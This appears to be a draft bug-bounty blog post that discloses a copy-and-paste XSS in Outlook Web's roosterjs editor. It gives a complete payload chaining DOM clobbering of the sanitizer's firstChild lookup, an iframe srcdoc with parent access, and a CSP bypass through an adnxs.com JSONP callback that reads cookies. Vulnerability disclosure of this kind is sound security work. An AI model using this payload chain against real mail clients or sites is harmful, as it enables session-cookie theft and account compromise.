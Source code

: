 ```yaml
---
title: [Rough DRAFT] Copy and Paste XSS in outlook
author: TheGrandPew
date: 2021-01-26 11:33:00 +0800
categories: [Blogging, Bounties]
tags: [xss, copy&paste, csp]
math: true
toc: true
image: /assets/img/Microsoft-Outlook-logo.jpg
---
```



## The Bug

---

```
<form><iframe srcdoc='<script src="https://ib.adnxs.com/jpt?id=7114452&callback=alert(`Domain:\x20${window.parent.location.href}\nCookies:\x20${window.parent.document.cookie}`);"></script>'></iframe><input name=firstChild></form>
```
Lets skip strait to the bug because thats why your all here. The Bug I found was a copy and paste xss in the wysiwyg email editor in outlook web.

---

## Part One: Understanding the wysiwyg editor in outlook

---

The wysiwyg that outlook uses is called rooster-js https://github.com/microsoft/roosterjs. The part I had a look at was the copy and paste support provided by it, the basic flow of of the wysiwyg cp&paste was that firstly it would get the data off the clipboard as a html string. It will then go and santize the html string with its self rolled html sanitzer (really bad idea cause html sanitizers a hard). Finaly it will go and insert that html into the node of the editor.

---

## Part Two: blowing the brains of the rooster js html sanitizer

---

Due to the html sanitzer I couldn't just insert a normal xss payload, no I needed to find a way to bypass it. The html sanitizer [code](https://github.com/microsoft/roosterjs/blob/de8afd8ef2a40fc07cea01a0f883653fbb808f5f/packages/roosterjs-editor-dom/lib/htmlSanitizer/HtmlSanitizer.ts) I needed to bypass was using the DomParser js api to parse the a html string into a dom tree and then loop through the dom-tree and check for html nodes that are not in its whitelist.


The Bypass I found consited around this snippet of [code](https://github.com/microsoft/roosterjs/blob/de8afd8ef2a40fc07cea01a0f883653fbb808f5f/packages/roosterjs-editor-dom/lib/htmlSanitizer/HtmlSanitizer.ts#L204), the html sanitizer would access the property ?.firstChild of each html node to get the next element in the dom-tree. To bypass this protection I used a teqnique called Dom clobbering to overwrite values like ?.firstChild on a html element so that i can sneek my own html that wont get sanitzed into a html string. The exact dom clobbering payload I used was a form with an input that name was firstChild [```<form><myhtml></myhtml><input name=firstChild>```] this allowed me to place any html I wanted before the input tag exellent! 
 
---

## Part Three: outlooks csp bypass

---

As soon as I had html injection I ran into a problem, because this is dom based xss I can't just put in a script tag beacuse its content is only evaluated during the page load time. Luckly I knew a bypass for that, iframes that use srdoc have full access to the window.parent object and also are evaluated anytime they are appended to the document (not just at onload). Example ```<iframe srcdoc='<script>alert(window.parent.document.cookie)</script>'></iframe>``` would be the same as ```<script>alert(document.cookie)</script>```. After that all I needed was a bypass for its csp rules 
```default-src *.res.office365.com *.cdn.office.net *.cdn.partner.outlook.cn owassets.azureedge.net swx.cdn.skype.com 'self'; script-src 'nonce-1+FGBaKNzIAmrLfL/cdLDw==' *.res.office.com *.res.office365.com *.cdn.office.net *.cdn.partner.outlook.cn owassets.azureedge.net wss://*.delve.office.com:443 shellprod.msocdn.com amcdn.msauth.net amcdn.msftauth.net *.bing.com *.skype.com *.skypeassets.com *.delve.office.com *.cdn.office.net *.cdn.partner.outlook.cn static.teams.microsoft.com *.arkoselabs.com fabriciss.azureedge.net *.googleapis.com teams.microsoft.com 'report-sample' 'self' 'unsafe-inline' 'unsafe-eval' *.adnxs.com acdn.adnxs.com cdn.adnxs.com *.aolcdn.com jill.fc.yahoo.com stage-jill.fc.yahoo.com jac.yahoosandbox.com stage-jac.yahoosandbox.com; style-src *.res.office.com *.res.office365.com *.cdn.office.net *.cdn.partner.outlook.cn owassets.azureedge.net *.res.outlook.com shellprod.msocdn.com *.skype.com *.arkoselabs.com fonts.googleapis.com acthemeconfigs.blob.core.windows.net *.googleapis.com 'self' 'unsafe-inline'; img-src * data: blob: filesystem: cid:; connect-src blob: data: ninja.outlookweb.io *.res.office.com *.res.office365.com *.cdn.office.net *.cdn.partner.outlook.cn owassets.azureedge.net *.services.web.outlook.com *.res.outlook.com spoprod-a.akamaihd.net shellprod.msocdn.com *.bing.com login.live.com *.office.net *.office.com *.office365.com *.officeapps.live.com *.outlook.live.net *.skype.com *.skypeassets.com *.spoppe.com *.onedrive.com substrate.office.de substrate.office.us *.office365-net.de *.office.de *.office365.us browser.pipe.aria.microsoft.com *.gateway.messenger.live.com dev.virtualearth.net *.trouter.skype.com *.trouter.io wss://*.trouter.skype.com wss://*.trouter.skype.com:443 wss://*.trouter.io:443 media.licdn.com *.facebook.com onerm.olsvc.com client.arkoselabs.com *.qas.binginternal.com *.qas.bing.net wss://*.qas.bing.net:443 wss://*.platform.bing.com wss://*.botframework.com:443 wss://augloop.officeppe.com:443 wss://augloop-int.officeppe.com:443 wss://augloop-gcc.office.com:443 outlook.live.com graph.microsoft.com *.graph.microsoft.com graph.microsoft.de graph.microsoft.us microsoftgraph.chinacloudapi.cn *.googleapis.com *.office.microsoft.com api.box.com api.dropboxapi.com *.users.storage.live.com www.onenote.com *.storage.msn.com asgsmsproxyapi.azurewebsites.net meetingintelligenceppe.westus2.cloudapp.azure.com:9001 wss://*.pushd.svc.ms wss://*.pushs.svc.ms wss://*.pushb.svc.ms wss://*.pushp.svc.ms nleditor.osi.officeppe.net api.tenor.com pptservicescast.officeapps.live.com *.sharepoint-df.com *.sharepoint.com *.sharepoint.de wss://*.delve.office.com:443 wss://*.loki.delve.office.com:443 wss://*.loki.delve.office.com *.delve.office.com *.loki.delve.office.com loki.delve-gcc.office.com web.vortex.data.microsoft.com *.events.data.microsoft.com *.online.lync.com *.infra.lync.com *.safelinks.protection.outlook.com 'self' *.adnxs.com m.adnxs.com nym1-ib.adnxs.com ib.adnxs.com fra1-ib.adnxs.com ams1-ib.adnxs.com api.taboola.com tlx.3lift.com jill.fc.yahoo.com stage-jill.fc.yahoo.com api.msn.com arc.msn.com ris.api.iris.microsoft.com; base-uri browser.pipe.aria.microsoft.com 'self'; form-action *.officeapps.live.com https://*.sharepoint-df.com https://*.sharepoint.com https://*.sharepoint.de; object-src *.office.net *.outlook.live.net 'self'; frame-ancestors outlook.live.com *.skype.com 'self'; font-src data: *.res.office.com *.res.office365.com *.cdn.office.net *.cdn.partner.outlook.cn owassets.azureedge.net spoprod-a.akamaihd.net *.skype.com fonts.gstatic.com ms-appx-web: sharepointonline.com *.sharepointonline.com *.delve.office.com 'self'; media-src *.res.office.com *.res.office365.com *.cdn.office.net *.cdn.partner.outlook.cn owassets.azureedge.net *.skype.com *.office.net *.office365.net *.office365-net.de *.office365-net.us *.office365-net.us *.outlook.live.net ssl.gstatic.com 'self' *.adnxs.com; frame-src * data: mailto:; manifest-src 'self'; worker-src *.res.office.com *.res.office365.com *.cdn.office.net *.cdn.partner.outlook.cn owassets.azureedge.net 'self'; prefetch-src *.res.office.com *.res.office365.com *.cdn.office.net *.cdn.partner.outlook.cn owassets.azureedge.net swx.cdn.skype.com; child-src *.res.office.com *.res.office365.com *.cdn.office.net *.cdn.partner.outlook.cn owassets.azureedge.net 'self'; report-uri https://edge.skype.com/r/c?owa&version=0.3.3&app=Mail&nonce=1; upgrade-insecure-requests;```, to bypass i used the great and mighty site https://csp-evaluator.withgoogle.com/ that told me that the site https://ib.adnxs.com/ hosted a badly filtered jsonp endpoint! 
 
---

## Final words

---

Hopefully you liked my blog, if not then i guess oof. See ya <button onclick="window.close()">Bye</button>

---